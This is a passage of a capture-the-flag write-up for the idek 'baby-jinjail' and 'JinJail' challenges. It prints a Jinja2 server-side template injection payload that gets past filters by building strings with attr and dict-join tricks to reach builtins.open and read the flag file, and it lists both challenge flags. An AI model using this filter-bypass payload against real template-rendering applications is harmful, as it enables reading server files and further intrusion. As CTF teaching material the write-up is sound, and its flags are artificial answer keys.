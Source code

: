 ```python
{{(cycler|attr(dict(__ini=a,t__=b)|join)|attr(dict(__glob=c,als__=d)|join))[dict(__buil=buil,tins__=tins)|join][dict(op=op,en=en)|join](dict(fl=fl,ag=ag)|join)|attr(dict(re=re,ad=ad)|join)()}}
```
* Well, finally i have a flag =))) 
![](https://i.imgur.com/bdgMKH3.png)

### JinJail
* The source code same `baby-jinjail` but it's check length of input if you input `> 256` it will return `false` but my payload `< 256` so i used 1 payload for two challenges.
![](https://i.imgur.com/6rjMnSE.png)

# FLAG
* Baby-jinjail `idek{n0w_g0_s0lv3_j1nj41l_pl34se}`
* JinJail `idek{us1nG_f1lt3rs_t0_byP4s5_f1lt3r5}`
## Thanks
* Thanks bro [Taidh](https://github.com/DauHoangTai) supported me 
